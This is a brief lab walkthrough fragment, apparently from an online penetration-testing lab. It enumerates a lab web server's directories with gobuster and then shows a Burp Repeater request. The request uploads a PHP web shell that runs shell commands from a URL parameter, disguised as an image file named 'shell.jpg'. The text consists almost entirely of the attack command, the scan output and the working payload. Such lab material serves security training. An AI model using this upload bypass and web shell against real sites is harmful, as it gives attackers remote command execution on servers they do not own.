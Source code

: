 `gobuster dir --url https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/ --wordlist /usr/share/wordlists/dirb/common.txt`:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 168]
/.htaccess            (Status: 403) [Size: 168]
/.htpasswd            (Status: 403) [Size: 168]
/index.php            (Status: 200) [Size: 3398]
/static               (Status: 301) [Size: 184] [--> http://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/static/]
/uploads              (Status: 301) [Size: 184] [--> http://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/uploads/] 📌
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------3389900069635376210896551091
Content-Length: 254
Origin: https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
Referer: https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------3389900069635376210896551091
Content-Disposition: form-data; name="fileToUpload"; filename="shell.jpg" 📌
Content-Type: image/jpeg

<?php
$output = shell_exec($_GET["cmd"]);
echo "<pre>".$output."</pre>"
?> 📌

-----------------------------3389900069635376210896551091--
```